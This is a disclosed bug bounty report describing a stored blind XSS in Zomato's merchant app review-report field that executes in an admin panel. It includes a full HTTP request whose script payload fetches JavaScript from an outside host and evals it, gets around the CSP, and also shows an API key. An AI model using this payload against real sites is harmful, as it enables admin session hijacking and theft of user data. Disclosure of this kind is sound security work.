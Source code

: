 # Blind XSS - Report review - Admin panel

## Report Details
- **Report ID**: 314126
- **URL**: https://hackerone.com/reports/314126
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-09T08:29:03.069Z
- **Disclosed**: 2018-03-29T17:45:40.493Z

## Reporter
- **Username**: gerben_javado
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
#Introduction
In the Zomato Business app there is the functionality to report a review and give additional details as to why you did report the review. Because I knew this reason would be read by Zomato admins I did insert a blind XSS payload here, which ended up executing on https://www.zomato.com████████/reviews_new?review_id={ID}. This means that the content of additional details will be rendered as HTML on the admin panel page. The CSP policy of Zomato can be bypassed by leveraging the unsafe-inline in the CSP to load the JavaScript file using `XMLHttpRequest`.

#Steps to reproduce
1. Replace the `X-Access-Token` to your access token and the `review_id` to a review you can report.
2. Send the request in Burp
3. Go to https://www.zomato.com██████████/reviews_new?review_id={ID}
4. XSS payload executes

```http
POST /v2/█████merchant HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 485
Host: api.zomato.com
X-Zomato-API-Key: a2cf52f6036511e48be6b2227cce2b54
X-Access-Token: dc5da████████ad0fdddff04
X-Client-Id: zomato_merchantandroid_v2

reason_id=5&review_id=32288944&additional_text=<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ks.xss.ht");a.send();</script>
```

#Screenshot Admin Panel
{█████}

#Dom Snippet
```html
 <u>Reported by Merchant(ID)</u> : <a style="opacity: 1; color: #000000; text-decoration:underline" href="https://www.zomato.com/users/43211589">43211589</a><br><u>Report Reason ID</u> : 5 (Other (mention reason below).)<br><u>Additional Text</u> : H
H
H
H
H
''"&gt;<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ks.xss.ht");a.send();</script>
```

## Impact

An attacker is certain that a Zomato Admin will read his report. Thus an attacker can be sure that he can gain access to the Zomato admin panel where he can get the private information of other users by leveraging AJAX requests.

The hacker selected the **Cross-site Scripting (XSS) - Stored** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
https://www.zomato.com██████████/reviews_new

**Verified**
Yes



## Attachments
No attachments
